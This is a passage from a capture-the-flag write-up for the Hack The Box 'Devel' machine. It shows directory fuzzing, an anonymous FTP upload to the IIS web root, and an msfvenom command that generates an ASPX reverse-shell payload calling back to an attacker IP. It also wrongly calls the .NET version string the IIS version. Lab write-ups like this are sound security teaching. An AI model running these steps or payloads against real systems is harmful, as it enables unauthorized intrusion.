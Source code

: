 Fuzzing the aspnet_client directory it is possible to discover the exact IIS version

The fuzzing list: http://itdrafts.blogspot.com/2013/02/aspnetclient-folder-enumeration-and.html
```
$ dirb http://10.10.10.5/aspnet_client/system_web/ fuzzdir.txt -r

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Oct 13 12:17:29 2021
URL_BASE: http://10.10.10.5/aspnet_client/system_web/
WORDLIST_FILES: fuzzdir.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 68                                                            

---- Scanning URL: http://10.10.10.5/aspnet_client/system_web/ ----
==> DIRECTORY: http://10.10.10.5/aspnet_client/system_web/2_0_50727/                                                                         
+ http://10.10.10.5/aspnet_client/system_web/// (CODE:403|SIZE:1233)
```

Now we know the server is running Microsoft IIS 2.0.50727

### FTP

Logging in as Anonymous user and uploading a simple index.html reveals that the FTP directory is the root directory of the IIS server.

```
$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> bin
200 Type set to I.
ftp> put index.html
local: index.html remote: index.html
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
16 bytes sent in 0.00 secs (226.4493 kB/s)
ftp> bye
421 Service not available, remote server has closed connection
                                                                                                                                              
┌──(kali㉿kali)-[~/Documents/CTF/hackthebox/Devel]
└─$ curl http://10.10.10.5/index.html
<H1>Hacked</H1>
```
This sounds like a job for a remote shell
```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2723 bytes
                                                                                                                                              
```